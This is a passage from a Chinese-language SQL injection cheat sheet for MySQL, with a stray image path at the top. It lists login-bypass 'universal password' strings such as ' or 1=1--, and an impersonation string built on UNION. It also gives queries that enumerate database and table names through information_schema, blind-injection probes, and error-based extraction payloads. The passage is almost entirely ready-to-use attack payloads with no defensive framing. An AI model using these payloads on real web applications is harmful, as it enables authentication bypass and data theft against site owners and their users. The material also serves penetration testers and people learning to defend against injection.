 * /\*! MYSQL专属 \*/

    ``` sql
    SELECT /*!32302 1/0, */ 1 FROM tablename
    ```

### 字符串编码

* ASCII()：返回字符的 ASCII 码值
* CHAR()：把整数转换为对应的字符

### 后台万能密码

* admin' --
* admin' #
* admin'/*
* ' or 1=1--
* ' or 1=1#
* ' or 1=1/*
* ') or '1'='1--
* ') or ('1'='1--
* 以不同的用户登陆 ' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--

### 注入语句备忘

#### 数据库名

``` sql
SELECT database();
SELECT schema_name FROM information_schema.schemata;
```

#### 表名

* union 查询

``` sql
--MySQL 4版本时用version=9，MySQL 5版本时用version=10
UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10;   /* 列出当前数据库中的表 */
UNION SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA=database();   /* 列出所有用户自定义数据库中的表 */
SELECT table_schema, table_name FROM information_schema.tables WHERE table_schema!='information_schema' AND table_schema!='mysql';
```

* 盲注

``` sql
AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'
```

* 报错

``` sql
AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),FLOOR(RAND(0)*2))) (@:=1)||@ GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),!@) HAVING @||MIN(@:=0); AND ExtractValue(1, CONCAT(0x5c, (SELECT table_name FROM information_schema.tables LIMIT 1)));
-- 在5.1.5版本中成功。
```
